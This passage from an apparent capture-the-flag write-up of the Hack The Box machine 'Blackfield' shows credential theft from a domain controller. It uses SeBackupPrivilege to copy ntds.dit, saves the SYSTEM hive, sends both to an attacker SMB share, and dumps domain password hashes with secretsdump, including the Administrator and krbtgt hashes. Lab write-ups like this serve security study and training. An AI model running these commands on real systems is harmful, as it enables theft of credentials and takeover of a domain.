 ```
//We are copying the snapshot of ntds into our own directory under the name ntds.dit 
//the /b flag tells it to utilize our SeBackupPrivilege
*Evil-WinRM* PS C:\Tmp> robocopy /b d:\windows\ntds . ntds.dit 
100%
------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   18.00 m   18.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00

```

Now that we have our data, we need the key (the system hive).

```
*Evil-WinRM* PS C:\Tmp> reg save hklm\system system
The operation completed successfully
```

Now we just have to download both files for offline cracking with secretsdump.py, a tool apart of impacket.

```
//Normally you could just use "download <filename" in Evil-WinRM, but it wasn't working so I spun up an SMB server and copied them there
//Also, the server had smb2support enabled because the machine noticed that my SMB server was insecure

┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]
└─# smbserver.py share . -smb2support
Impacket v0.9.24.dev1+20210928.152630.ff7c521a - Copyright 2021 SecureAuth Corporation

*Evil-WinRM* PS C:\Tmp> copy ntds.dit \\10.10.16.6\share\ntds.dit
*Evil-WinRM* PS C:\Tmp> copy system  \\10.10.16.6\share\system

//I use local to make the script know that its just parsing files
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]
└─# secretsdump.py -ntds ntds.dit -system system local                                                                                   
Impacket v0.9.24.dev1+20210928.152630.ff7c521a - Copyright 2021 SecureAuth Corporation
[*] Target system bootKey: 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:3774928fe55833e6c62abdc233f47a7b:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
```
